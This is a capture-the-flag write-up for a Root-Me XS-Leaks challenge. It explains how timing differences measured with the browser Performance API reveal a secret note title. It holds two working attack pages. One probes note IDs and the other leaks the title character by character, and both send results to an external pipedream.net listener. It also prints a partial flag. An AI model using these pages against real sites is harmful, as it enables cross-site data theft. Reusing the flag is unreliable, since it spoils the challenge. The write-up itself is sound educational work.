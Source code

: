 ```yaml
---
title: "- Rootme CTF - XsLeaks"
tags:
  - client side
  - web
  - CTF 
---
```


# XSLeak - Abusing Performance API - RootMe

## **Overview**

In this task, we will exploit a timing side-channel vulnerability in a web application's note search functionality. The application shows different response times based on the validity of the input, allowing us to infer sensitive information through timing attacks. First, we need to identify the admin user's ID.

## **Performance API Overview**

The Performance API provides detailed timing data about the performance of web applications. Using `performance.now()`, the script can capture timestamps with sub-millisecond accuracy. This precision is crucial in timing attacks, where the difference in processing time between valid and invalid inputs is often minimal.

Now we can see that when a valid character is appended to the URL, the server takes more time to respond compared to when an invalid character is appended. This likely results from additional server-side processing for valid inputs, such as database queries or data rendering, which are not triggered by invalid inputs. By measuring these timing differences, the script can deduce the correct characters one by one.

![img](../ctf-web/images/xs.png)

## **Finding the Admin User ID**

To find the admin user's ID, we can brute-force possible user IDs by probing the server and monitoring the responses. The script below performs this task by injecting scripts into the page and checking which IDs trigger a response.

### **Admin User ID Brute-force Script**

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Find Admin ID</title>
</head>
<body>
<script type="text/javascript">
const listener = 'https://en0z1k1c8dwr9e.x.pipedream.net/';

function gotIt(id) {
    fetch(listener + '/?id=' + id, {"method": "GET", "mode": "no-cors"});
}

function probeError(url) {
    let script = document.createElement('script');
    script.src = url;
    script.onload = () => gotIt(url.split('/').pop());
    document.head.appendChild(script);
}

for(let i = 350; i <= 400; i++) {
    probeError(`https://web-client-ch56.challenge01.root-me.org:58056/notes/${i}`);
}
</script>
</body>
</html>

```

Once the admin ID is discovered, we can perform a timing attack to extract sensitive information by measuring the response time of different requests.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Leak</title>
</head>
<body>
<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function sendCharacterToEndpoint(char, titleSoFar) {
    const img = new Image();
    img.src = `https://en0z1k1c8dwr9e.x.pipedream.net/?flag=${titleSoFar}`;
    document.body.appendChild(img);
}

async function measureLoadTime(url) {
    return new Promise((resolve) => {
        const start = performance.now();
        const image = new Image();
        image.src = url;
        image.onerror = function() {
            const end = performance.now();
            const time = end - start;
            resolve(time);
        };
    });
}

async function leak() {
    const possibleChars = "!\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
    const targetOrigin = 'https://web-client-ch56.challenge01.root-me.org:58056/notes/392/';
    let discoveredTitle = 'zC4R3_4B0UT_+S4MES1T3_C00K13';

    while (true) {
        let foundChar = false;
        for (let i = 0; i < possibleChars.length; i++) {
            const url = targetOrigin + discoveredTitle + encodeURIComponent(possibleChars[i]);
            const time = await measureLoadTime(url);
            console.log(`This Character: ${possibleChars[i]} took ${time} ms`);
            if (time > 2000) {
                discoveredTitle += possibleChars[i];
                console.log(discoveredTitle);
                foundChar = true;
                await sendCharacterToEndpoint(possibleChars[i], discoveredTitle);
                break;
            }
            await sleep(100);
        }
        if (!foundChar) break;
        await sleep(2000);
    }
    console.log(`Final discovered title: ${discoveredTitle}`);
}

leak();
</script>
</body>
</html>

```

## **Resources**

- [Performance API Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Performance)